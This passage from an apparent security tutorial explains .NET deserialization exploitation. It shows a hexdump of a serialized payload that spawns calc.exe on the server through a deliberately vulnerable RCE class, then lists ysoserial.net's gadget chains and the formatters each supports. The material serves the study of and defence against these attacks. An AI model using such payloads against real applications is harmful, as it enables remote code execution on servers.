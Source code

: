 Serializing that would produce the following file:

```
$ hexdump.exe -C desert.ser
00000000  00 01 00 00 00 ff ff ff  ff 01 00 00 00 00 00 00  |................|
00000010  00 0c 02 00 00 00 47 42  69 6e 61 72 79 53 65 72  |......GBinarySer|
00000020  69 6c 69 61 7a 65 72 2c  20 56 65 72 73 69 6f 6e  |iliazer, Version|
00000030  3d 30 2e 30 2e 30 2e 30  2c 20 43 75 6c 74 75 72  |=0.0.0.0, Cultur|
00000040  65 3d 6e 65 75 74 72 61  6c 2c 20 50 75 62 6c 69  |e=neutral, Publi|
00000050  63 4b 65 79 54 6f 6b 65  6e 3d 6e 75 6c 6c 05 01  |cKeyToken=null..|
00000060  00 00 00 17 42 69 6e 61  72 79 53 65 72 69 61 6c  |....BinarySerial|
00000070  69 7a 61 74 69 6f 6e 2e  52 43 45 01 00 00 00 04  |ization.RCE.....|
00000080  5f 63 6d 64 01 02 00 00  00 06 03 00 00 00 08 63  |_cmd...........c|
00000090  61 6c 63 2e 65 78 65 0b                           |alc.exe.|
00000098
```

Once deserialized by the application, it would automatically spawn a calculator on the application hosting server.

The next question would be, could it be possible to exploit it without relying on the "Damn Vulnerable" RCE class? The answer is yes, and it can be done, similarly to JAVA, by means of **POP gadgets**. 

The only exception being that each formatter holds its own exploitation methodology and its gadgets. Informally, in .NET each formatter has visibility only to certain objects types, so not every gadget can be used with a specific formatter (We'll see a manual example of that later on in this document).

#### Generate payloads dinamically: ysoserial.net

During the years, **ysoserial.net** was created, which allows to generate automatically serialized payloads using known .NET gadgets. The tool is available [here](https://github.com/pwntester/ysoserial.net/)

```
ysoserial.net generates deserialization payloads for a variety of .NET formatters.

Available formatters:
        ActivitySurrogateDisableTypeCheck (ActivitySurrogateDisableTypeCheck Gadget by Nick Landers. Disables 4.8+ type protections for ActivitySurrogateSelector, command is ignored.)
                Formatters:
                        BinaryFormatter
                        ObjectStateFormatter
                        SoapFormatter
                        NetDataContractSerializer
                        LosFormatter
        ActivitySurrogateSelectorFromFile (ActivitySurrogateSelector gadget by James Forshaw. This gadget interprets the command parameter as path to the .cs file that should be compiled as exploit class. Use semicolon to separate the file from additionally required assemblies, e. g., '-c ExploitClass.cs;System.Windows.Forms.dll'.)
                Formatters:
                        BinaryFormatter
                        ObjectStateFormatter
                        SoapFormatter
                        LosFormatter
        ActivitySurrogateSelector (ActivitySurrogateSelector gadget by James Forshaw. This gadget ignores the command parameter and executes the constructor of ExploitClass class.)
                Formatters:
                        BinaryFormatter
                        ObjectStateFormatter
                        SoapFormatter
                        LosFormatter
        ObjectDataProvider (ObjectDataProvider Gadget by Oleksandr Mirosh and Alvaro Munoz)
                Formatters:
                        Xaml
                        Json.Net
```